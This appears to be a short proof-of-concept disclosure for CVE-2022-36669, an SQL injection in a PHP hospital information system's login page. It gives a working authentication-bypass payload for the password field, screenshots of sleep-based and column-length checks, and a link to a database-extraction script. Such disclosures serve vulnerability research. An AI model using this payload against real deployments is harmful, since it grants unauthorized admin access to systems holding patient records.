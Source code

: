 # CVE-2022-36669

## Hospital Information System

```
# Exploit Title: Hospital Information System - SQL Injection via login page
# Date: 25/07/2022
# Exploit Author: saitamang
# Vendor Homepage: https://code-projects.org
# Software Link: https://download-media.code-projects.org/2019/11/HOSPITAL_INFORMATION_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
# Version: 1.0
# Tested on: Centos 7 apache2 + MySQL
```

Other refrence --> https://packetstormsecurity.com/files/167803/Hospital-Information-System-1.0-SQL-Injection.html

From the login page, at the email form, the attacker may fill anything inside. On the password form, the attacker may used below payload and click login to successfully login as Admin functionality.

Payload --> 'or 1=1#

## Login bypass using normal SQLI payload

<img src="https://github.com/saitamang/POC-DUMP/blob/main/Hospital%20Information%20System/img/login-success.png?raw=true" title="login">


## Login bypass with Sleep validation

<img src="https://github.com/saitamang/POC-DUMP/blob/main/Hospital%20Information%20System/img/proven-sleep.png?raw=true" title="sleep">


## Checking length of column

<img src="https://github.com/saitamang/POC-DUMP/blob/main/Hospital%20Information%20System/img/length-column.png?raw=true" title="length">

##You may download script automation to get the database name for your reference to learn!

Download [here](https://github.com/saitamang/POC-DUMP/blob/main/Hospital%20Information%20System/sqli.py)
